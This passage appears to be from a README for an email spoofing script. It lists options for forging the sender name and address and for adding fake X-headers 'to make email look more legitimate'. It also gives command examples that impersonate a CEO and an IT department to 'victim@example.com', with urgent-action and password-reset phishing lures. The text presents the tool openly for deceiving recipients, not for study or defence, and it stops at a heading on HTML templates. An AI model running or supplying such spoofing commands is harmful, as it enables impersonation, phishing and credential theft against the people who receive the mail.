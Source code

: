 #### Spoofing Parameters:
- `--from-name`: Display name you want to show as the sender
- `--from-email`: Email address you want to show as the sender
- `--reply-to`: Reply-to email address
- `--to`: Recipient email(s), comma separated
- `--cc`: CC recipient(s), comma separated
- `--bcc`: BCC recipient(s), comma separated
- `--subject`: Email subject
- `--message`: Email body content (HTML supported)
- `--plain-text`: Send as plain text instead of HTML
- `--attach`: File(s) to attach (can be used multiple times)
- `--add-xheaders`: Add fake X-headers to make email look more legitimate
- `--custom-header`: Add custom header in format "Header:Value" (can be used multiple times)

## Usage Examples

### Basic Email Spoofing

#### Example 1: Basic spoofed email

```bash
python email_spoofer.py \
  --server smtp.example.com \
  --port 587 \
  --user your_real_email@example.com \
  --password your_password \
  --from-name "John Smith" \
  --from-email ceo@company.com \
  --to victim@example.com \
  --subject "Urgent: Action Required" \
  --message "Please review the attached document and respond ASAP."
```

#### Example 2: Using HTML content

```bash
python email_spoofer.py \
  --server smtp.example.com \
  --port 587 \
  --user your_real_email@example.com \
  --password your_password \
  --from-name "IT Department" \
  --from-email it-support@company.com \
  --to victim@example.com \
  --subject "Password Reset Required" \
  --message "<h2>Security Alert</h2><p>Your password needs to be reset. <a href='https://example.com'>Click here</a> to reset.</p>"
```

### Advanced Email Spoofing

#### Example 1: Using the HTML template
